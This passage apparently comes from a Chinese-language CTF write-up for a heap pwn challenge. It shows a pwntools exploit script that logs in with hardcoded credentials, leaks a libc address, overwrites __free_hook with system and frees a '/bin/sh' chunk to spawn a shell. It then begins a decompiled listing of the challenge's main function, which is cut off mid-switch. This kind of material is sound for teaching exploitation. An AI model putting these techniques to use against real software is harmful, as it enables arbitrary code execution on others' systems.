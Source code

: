 ```python
        else :
                r.sendafter("please input the name of the onject>>",newname)
        if(len(des)<0x20):
                r.sendlineafter("describe it>>",des)
        else:
                r.sendafter("describe it>>",des)

def login():
        r.sendafter("please login first!",b'cat_loves_her'.ljust(0x10,b'\x00'))
        r.sendlineafter("password:   ",b'\x00aaaa')

# context.log_level = 'debug'
# gdb.attach(r)
login()
add(b'1111',b'/bin/sh\x00')
add(b'2222',b'ssssss')
add(b'3333',b'ssssss')
add(b'4444',b'ssssss')
add(b'5555',b'ssssss')
add(b'6666',b'ssssss')
add(b'7777',b'ssssss')
edit_name(b'7777',b'7'*8)
edit_des(b'7'*8,p64(6)+b'6'*4+b'\x00'*4+p64(6303784))
show(b'6666')

r.recvuntil("::")
puts_addr = u64(r.recv(6).ljust(8,b'\x00')) 
libc=puts_addr-0x0809c0	
free_hook = 0x00000000003ed8e8+libc
system = 	0x04f440+libc
edit_des(b'7'*8,p64(6)+b'6'*4+b'\x00'*4+p64(free_hook))
edit_des(b'6'*4,p64(system))
free(b'1111')
r.interactive()
```

除去几个函数的交互定义，剩下的内容倒是不复杂。剖析wp总要看一下程序吧。main函数和系列中前面的程序差不多。

```c
undefined8 Main(void)

{
  undefined4 uVar1;
  undefined8 uVar2;
  long in_FS_OFFSET;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  memset(local_38,0,0x20);
  FUN_0040095a();
  PrintTitle();
  puts("welcome to the second challenge!\nwhat you need to do it to login successfully!");
  puts("then enjoy the game!");
  while (uVar2 = Login(), (int)uVar2 != 0) {
    PrintMenu();
    GetInput((long)local_38,2);
    uVar1 = _atoi(local_38);
    switch(uVar1) {
    default:
      puts("Illegal input");
      break;
    case 1:
      Create();
```